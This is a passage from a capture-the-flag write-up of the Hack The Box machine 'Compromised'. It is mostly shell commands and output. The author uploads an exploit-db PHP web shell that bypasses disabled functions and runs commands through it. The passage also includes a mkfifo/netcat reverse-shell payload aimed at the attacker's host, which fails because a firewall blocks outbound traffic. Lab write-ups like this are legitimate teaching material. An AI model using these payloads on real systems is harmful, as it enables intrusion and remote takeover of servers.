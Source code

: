 ### Bypassing disabled functions
So lets download the exploit from exploit-db and upload this exploit to the webserver.
```console
local@local:~/Documents/htb/boxes/compromised$ wget https://www.exploit-db.com/raw/47462
local@local:~/Documents/htb/boxes/compromised$ mv 47462 shell.php
```
And after uploading if we hit the page, we get code execution.
```console
local@local:~/Documents/htb/boxes/compromised$ curl http://10.10.10.207/shop/vqmod/xml/shell.php
Linux compromised 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
Now that we have got code execution, let us try to get a reverse shell.

### Changing the content of shell.php
```console
local@local:~/Documents/htb/boxes/compromised$ sed -i 's/pwn("uname -a")/pwn($_REQUEST["cmd"])/g' shell.php
```
Now after uploading, we can execute commands.
```console
local@local:~/Documents/htb/boxes/compromised$ curl http://10.10.10.207/shop/vqmod/xml/shell.php -d 'cmd=ls -la'
total 20
drwxr-xr-x 2 www-data www-data 4096 Oct  8 15:15 .
drwxr-xr-x 4 root     root     4096 May 29 05:00 ..
-rw-r--r-- 1 root     root        0 May 14  2018 index.html
-rw-r--r-- 1 www-data www-data   20 Oct  8 15:15 phpinfo.php
-rw-r--r-- 1 www-data www-data 6018 Oct  8 15:39 shell.php
```
## Trying to get a reverse shell
### Listing on our box
```console
local@local:~/Documents/htb/boxes/compromised$ sudo nc -nvlp 80
Listening on [0.0.0.0] (family 2, port 80)
Listening on 0.0.0.0 80
```
### Executing the payload
```console
local@local:~/Documents/htb/boxes/compromised$ curl http://10.10.10.207/shop/vqmod/xml/shell.php -d 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.48 80 >/tmp/f'
```
But we do not get a connection back. And I tried this with different reverse shell payloads but I did not get the connection back. So I decided to take a step back and try to ping my box.

### Listening for connection on tun0 interface
```console
local@local:~/Documents/htb/boxes/compromised$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
```
### Executing ping 
```console
local@local:~/Documents/htb/boxes/compromised$ curl http://10.10.10.207/shop/vqmod/xml/shell.php -d 'cmd=ping 10.10.14.48'
```
But there was no response. So I guessed there must be some firewall or iptable rules that is blocking the outgoing connection. So I decided to use [forward shell](https://github.com/IppSec/forward-shell) made by Ippsec.
